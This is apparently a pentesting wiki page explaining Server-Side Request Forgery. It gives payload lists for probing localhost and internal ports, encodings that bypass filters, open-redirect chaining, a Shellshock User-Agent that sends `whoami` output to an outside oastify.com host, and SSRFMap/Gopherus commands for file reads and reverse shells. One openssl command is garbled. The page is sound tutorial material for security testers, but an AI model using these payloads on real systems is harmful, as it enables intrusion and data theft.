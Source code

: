 # SSRF (Server-Side Request Forgery)

## Theory

A Server-Side Request Forgery (a.k.a. SSRF) is a web vulnerability allowing attackers to make the server-side application do certain requests. This vulnerability can lead to unauthorized actions, Sensitive Information Disclosure and even RCE (Remote Code Execution).

> [!TIP]
> SSRF is to [file inclusion](../file-inclusion/index) since both vulnerabilities can be exploited to access external or internal content. The difference resides in the fact that file inclusion vulnerabilities rely on code inclusion functions (e.g. `include()` in PHP) while SSRF ones on functions that only handle data (e.g. `file_get_contents()`, `fopen()`, `fread()`, `fsockopen()`, `curl_exec()` in PHP), meaning file inclusion vulnerabilities will usually lead to RCE much more easily that SSRF ones.

## Practice

Testers need to find input vectors and fields that could be used for publishing or importing data from a URL (e.g. `GET` and `POST` parameters).

With `http://some.website/index.php?url=https://someother.website/index.php`, and `url` being the vulnerable parameter, the following basic payloads can help a tester fetch content of files, scan ports, access filtered resources and so on.

```
file://PATH/TO/FILE
http://127.0.0.1:80/admin
http://127.0.0.1:80
http://127.0.0.1:22
ldap://127.0.0.1:389/%0astats%0aquit
dict://{attacker_url}:11111/
sftp://{attacker_url}:11111/
tftp://{attacker_url}:12346/TESTUDPPACKET
```

To scan for a specific range of private IP addresses (other than `localhost`), Use burp suite intruder that can fetch all of IP addresses in the internal network that is targeted.

### Bypassing filters

In order to conduct SSRF attacks properly, there may be use cases where filters need to be bypassed

::: tabs

=== Blacklist input filters

Some applications block input containing hostnames like `127.0.0.1` and `localhost`, or sensitive URLs like `/admin`. In this situation, you can bypass the filter using various techniques :

* Using an alternative IP representation such as :


```
http://127.1
http://0
http:@0/
http://0.0.0.0:80
http://[::]:80/
http://[0000::1]:80/
http://2130706433 # Decimal version of localhost
http://0x7f000001/ # Hexadecimal version of localhost

```


* Obfuscating string using URL encoded, even double URL encoded sometimes.
* Registered your own domain name that resolved the `localhost` IP address.

> [!TIP]
> The following "URL Format Bypass" cheatsheet gives lots of examples to bypass filters: [https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass.md](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass.md)


=== Whitelist input filters

### Pattern validation

In this context, a whitelist-based input filter can be used to restrict the types of URLs that a user can submit. For example, the filter might only allow URLs that match the whitelist pattern. In this situation, you can bypass the filter using various techniques :

* Using the `@` character in a URL like this :
 * `https://{url}@{target_host}`
* Using the `#` character to indicate that the first field is interpreted as a URL fragment like this :
 * `https://{target_host}#{url}`
* Using the DNS name to place required input into a fully-qualified DNS like this :
 * `https://{url}.{target_host}`
* URL encode, even double URL encoding this special character to bypass the filter
* Use a combination of all this technique like using the `#@` characters.

### [ORED (Open Redirect)](#ored-open-redirect-combination) combination

In the case the argument is strictly validated and doesn't allow for bypasses relying on pattern validation, if one of the whitelisted app's pages is vulnerable to an [ORED (Open Direct)](#ored-open-redirect-combination), it could be used to make the SSRF possible anyway.

The server would request the ORED-vulnerable page through the SSRF vulnerability, and it would then be redirected to the actual target page, thanks to the lesser-filtered Open Redirect.

![](assets/SSRF.png)





:::


### Blind SSRF vulnerabilities 

A blind SSRF vulnerability is a type of vulnerability that arises when an application makes a request to an external resource using user-supplied input, but the application does not return the response to the user.

It can be achieved to gain full RCE (Remote Command Execution).

In order to identify a potential SSRF vulnerability and exploit, multiple tools can be used to pingback the request and see the response.

* [Burp Suite Collaborator](https://portswigger.net/burp/documentation/collaborator)
* [pingb](http://pingb.in/)
* [canarytokens](https://canarytokens.org/generate)
* [interactsh](https://github.com/projectdiscovery/interactsh)
* [webhook](http://webhook.site/)
* [ssrf-sheriff](https://github.com/teknogeek/ssrf-sheriff)
* An extension to add to Burp Suite, called "[collaborator everywhere](https://portswigger.net/bappstore/2495f6fb364d48c3b6c984e226c02968)", that adds non-invasive payloads into outgoing HTTP requests' headers in order to detect SSRF vulnerabilities if and when the target pingbacks to the collaborator endpoint.

> [!TIP]
> An effective way to abuse blind SSRF is to combine it with a shellshock vulnerability ([CVE-2014-6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271)). See the following resource for more details: [PortSwigger Lab: Blind SSRF with shellshock](https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation). The "[collaborator everywhere](https://portswigger.net/bappstore/2495f6fb364d48c3b6c984e226c02968)" extension can be used to detect and abuse this as well.

### SSRF via SNI data from certificate

The configuration below is insecure and allows to connect to an arbitrary backend, since the SNI field value is used directly as the address of the backend.

```json
stream {
    server {
        listen 443; 
        resolver 127.0.0.11;
        proxy_pass $ssl_preread_server_name:443;       
        ssl_preread on;
    }
}
```

With this insecure configuration, it is possible to exploit the SSRF vulnerability simply by specifying the desired IP or domain name in the SNI field. For example, the following command would force the server to connect to `internal.host.com`:

```bash
openssl s_client -connecttarget.com:443 -servername "internal.host.com" -crlfbash
```

> More information about this on [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#ssrf-via-sni-data-from-certificate).

### SSRF with Command Injection

It is possible to use SSRF that return the command output inside an out of band connection as follows.

```
url=http://zad8nb8tb7dst2yohw0br7rr6ich07ow.oastify.com?`whoami`
User-Agent: () { :; }; /bin/nslookup $(whoami).zad8nb8tb7dst2yohw0br7rr6ich07ow.oastify.com
```

[SSRFMap](https://github.com/swisskyrepo/SSRFmap) (Python) is a tool used to ease the exploitation of SSRFs. [Gopherus](https://github.com/tarunkant/Gopherus) (Python) can be used as well to gain RCE (Remote Code Execution) by generating Gopher payloads.


```bash
# using SSRFMap
python3 ssrfmap.py -r data/request.txt -p url -m readfiles

# using Gopherus
gopherus --exploit mysql # It only asks username of the MySQL user
	 --exploit postgresql # It only asks username of the Postgres user and database name
	 --exploit fastcgi # It only asks for a file which must be present in the victim system(preferable .php file)
	 --exploit redis # Get a reverse or php shell to overwrite the file in the system
	 --exploit zabbix # If port 10050 is open and EnableRemoteCommands = 1, then it is possible to run shell command
	 --exploit pymemcache # Python deserialization issue that lead to RCE
	 --exploit rbmemcache # Ruby deserialization issue that lead to RCE
	 --exploit phpmemcache # PHP deserialization issue that lead to RCE
	 --exploit dmpmemcache # Dump memory cache content
	 --exploit smtp # If port 25 is open and we can access it then, we can send message to anyone as victim user by generating email payload
```


## Resources

[https://portswigger.net/web-security/ssrf](https://portswigger.net/web-security/ssrf)

[https://portswigger.net/web-security/ssrf/blind](https://portswigger.net/web-security/ssrf/blind)

[https://owasp.org/www-community/attacks/Server_Side_Request_Forgery](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

[https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)
